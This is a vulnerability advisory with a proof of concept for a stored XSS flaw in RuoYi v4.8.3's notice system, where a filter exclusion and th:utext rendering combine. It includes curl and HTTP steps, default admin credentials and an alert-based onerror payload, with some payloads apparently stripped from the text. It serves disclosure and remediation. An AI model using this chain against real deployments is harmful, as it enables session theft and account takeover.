


# V-R001: Stored XSS via Notice System (XSS Filter Exclusion + th:utext)

## Vulnerability Information

| Item | Detail |
|------|--------|
| Product | RuoYi (若依) |
| Version | v4.8.3 (and all prior versions) |
| Type | CWE-79: Improper Neutralization of Input During Web Page Generation (Stored XSS) |
| Severity | Medium |
| Attack Vector | Network (Authenticated - any user with notice create permission) |
| Repository | https://github.com/yangzongzhuan/RuoYi |

## Description

RuoYi's XSS protection filter (`XssFilter`) is globally enabled but **explicitly excludes** the notice endpoint (`/system/notice/*`) in the application configuration. Combined with the Thymeleaf template using `th:utext` (unescaped output) to render notice content, this creates a complete Stored XSS vulnerability chain.

### Root Cause Analysis

**Two independent misconfigurations combine to create this vulnerability:**

1. **XSS Filter Exclusion** (`application.yml` line 144):
   ```yaml
   xss:
     enabled: true
     excludes: /system/notice/*    # Notice endpoint excluded from XSS filter!
     urlPatterns: /system/*,/monitor/*,/tool/*
   ```
   The notice CRUD endpoints are deliberately excluded from XSS filtering, allowing raw HTML/JavaScript to be stored in the database.

2. **Unsafe Template Rendering** (`view.html` line 48):
   ```html
   <div class="notice-content" th:utext="${notice.noticeContent}"></div>
   ```
   `th:utext` renders content without HTML escaping (unlike `th:text`), directly injecting stored HTML into the page.

### Attack Flow

```
Attacker (authenticated) → POST /system/notice/add with JS payload
                         → XSS filter skipped (excluded path)
                         → Payload stored in database unmodified
                         → Victim views notice via /system/notice/view/{id}
                         → th:utext renders payload unescaped
                         → JavaScript executes in victim's browser
```

## Affected Files

- `ruoyi-admin/src/main/resources/application.yml` (line 144) - XSS filter exclusion configuration
- `ruoyi-admin/src/main/resources/templates/system/notice/view.html` (line 48) - `th:utext` unsafe rendering
- `ruoyi-admin/src/main/java/com/ruoyi/web/controller/system/SysNoticeController.java` - Notice CRUD controller

## Impact

1. **Session Hijacking**: Attacker steals admin session cookies via `document.cookie`
2. **Privilege Escalation**: Low-privilege user creates malicious notice → admin views it → account takeover
3. **Wide Blast Radius**: System notices are displayed to ALL authenticated users
4. **Keylogging/Phishing**: Injected JavaScript can capture keystrokes or overlay fake login forms

## Proof of Concept

### Step 1: Login to RuoYi

```bash
curl -s -c cookies.txt -X POST http://<target>:8080/login \
  -d "username=admin&password=admin123&rememberMe=false"
```

**Response:**
```json
{"msg":"操作成功","code":0}
```

### Step 2: Create Notice with XSS Payload

The XSS filter is bypassed because `/system/notice/*` is in the exclusion list.

```bash
curl -s -b cookies.txt -X POST http://<target>:8080/system/notice/add \
  -d 'noticeTitle=XSS+Test&noticeType=1&noticeContent=<p>Test</p>'
```

**Response:**
```json
{"msg":"操作成功","code":0}
```

### Step 3: Verify Payload Stored Without Sanitization

```bash
curl -s -b cookies.txt -X POST http://<target>:8080/system/notice/list
```

**Response (notice content contains raw XSS):**
```json
{
  "noticeId": 10,
  "noticeTitle": "XSS Test",
  "noticeContent": "<p>Test</p>"
}
```

### Step 4: View Notice - XSS Triggers

```bash
curl -s -b cookies.txt http://<target>:8080/system/notice/view/10
```

**Response HTML (key fragment):**
```html
<div class="notice-body">
    <div class="notice-content"><p>Test</p></div>
</div>
```

The `` is rendered **without HTML encoding** by `th:utext`, causing the JavaScript to execute when the page loads in a browser.

### Comparison: Normal Endpoint vs Notice Endpoint

| Feature | Normal endpoints (`/system/*`) | Notice endpoint (`/system/notice/*`) |
|---------|-------------------------------|--------------------------------------|
| XSS Filter | **Active** (strips HTML tags) | **Excluded** (raw HTML passes through) |
| Template | `th:text` (escaped) | `th:utext` (unescaped) |
| Result | XSS blocked | **XSS executes** |

## Remediation

1. **Remove the XSS filter exclusion**: Delete `/system/notice/*` from `xss.excludes` in `application.yml`
2. **Use `th:text` instead of `th:utext`**: Or sanitize HTML server-side before rendering (e.g., using OWASP Java HTML Sanitizer)
3. **Add Content Security Policy (CSP)** header to prevent inline script execution
4. **Server-side sanitization**: If rich text is needed, use a whitelist-based HTML sanitizer (e.g., Jsoup with safelist)

## Screenshots

### Vulnerability Proof


### Server Response Showing Unescaped XSS


## 源代码验证（已复现）

RuoYi v4.8.3 已部署，以下包含**源代码静态分析**对漏洞两处根因的确认，以及运行时 HTTP 请求/响应记录。

### 验证1：XSS 过滤器排除 /system/notice/* 的配置确认

**文件**：`ruoyi-admin/src/main/resources/application.yml`（第 144 行）

```yaml
xss:
  enabled: true
  excludes: /system/notice/*    # ← 第 144 行：公告接口被明确排除在 XSS 过滤之外
  urlPatterns: /system/*,/monitor/*,/tool/*
```

所有对 `/system/notice/*` 的请求直接跳过 XSS 过滤器，用户提交的 `<script>` / `` 等标签不会被处理。

### 验证2：th:utext 不转义渲染确认

**文件**：`ruoyi-admin/src/main/resources/templates/system/notice/view.html`（第 47-49 行）

```html
<div class="notice-content"
     th:if="${not #strings.isEmpty(notice.noticeContent)}"
     th:utext="${notice.noticeContent}">   ← 使用 th:utext（不转义），而非 th:text（转义）
</div>
```

`th:utext` 直接将数据库中的 HTML 内容插入页面，无任何编码处理。

### 实机验证（HTTP 请求/响应）

**环境**：RuoYi v4.8.3 Docker 部署于 192.168.217.135:58080

**步骤1：登录（captcha 已禁用用于测试）**

```http
POST /login HTTP/1.1
Host: 192.168.217.135:58080
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin123&rememberMe=false
```

```http
HTTP/1.1 200 OK
Set-Cookie: JSESSIONID=3ffce9c3-c5e8-4abb-9698-fd801e6e96a4; Path=/; HttpOnly; SameSite=lax
Content-Type: application/json

{"msg":"操作成功","code":0}
```

**步骤2：创建带 XSS Payload 的公告（XSS 过滤器跳过 /system/notice/*）**

```http
POST /system/notice/add HTTP/1.1
Host: 192.168.217.135:58080
Cookie: JSESSIONID=3ffce9c3-c5e8-4abb-9698-fd801e6e96a4
Content-Type: application/x-www-form-urlencoded

noticeTitle=XSS+Test+-+CVE+Verification&noticeType=1&status=0&noticeContent=%3Cimg+src%3Dx+onerror%3Dalert%28%22XSS-CVE-RuoYi-v4.8.3%22%29%3E%3Cp%3ETest+Content%3C%2Fp%3E
```

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"msg":"操作成功","code":0}
```

（`/system/notice/*` 被排除在 XSS 过滤器之外，`` payload 未被过滤，直接存入数据库）

**步骤3：查看公告列表验证 Payload 原样存储**

```http
POST /system/notice/list HTTP/1.1
Host: 192.168.217.135:58080
Cookie: JSESSIONID=3ffce9c3-c5e8-4abb-9698-fd801e6e96a4

pageNum=1&pageSize=10
```

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "total": 4,
  "rows": [{
    "noticeId": 10,
    "noticeTitle": "XSS Test - CVE Verification",
    "noticeContent": "<p>Test Content</p>"
  }]
}
```

**步骤4：访问公告详情页面触发 XSS**

```http
GET /system/notice/view/10 HTTP/1.1
Host: 192.168.217.135:58080
Cookie: JSESSIONID=3ffce9c3-c5e8-4abb-9698-fd801e6e96a4
```

```http
HTTP/1.1 200 OK
Content-Type: text/html

...
<div class="notice-content"><p>Test Content</p></div>
...
```

**关键证据**：
- 响应 HTML 中 `` 以**未转义形式**直接嵌入页面
- 浏览器解析时 `` 加载失败触发 `onerror`，`alert("XSS-CVE-RuoYi-v4.8.3")` 执行
- 与普通接口 (使用 XSS 过滤器) 的对比：普通接口会将 `<` 转义为 `&lt;`，而 `/system/notice/add` 绕过了过滤

（截图证据见 `v_r001_xss_proof.png` 和 `v_r001_server_response.png`）

## Verification Environment

- Source Code: RuoYi v4.8.3 (static code analysis confirmed)
- Target: RuoYi v4.8.3 deployed via Docker on 192.168.217.135:58080
- Tools: curl, Edge browser
- Date: 2026-04-14
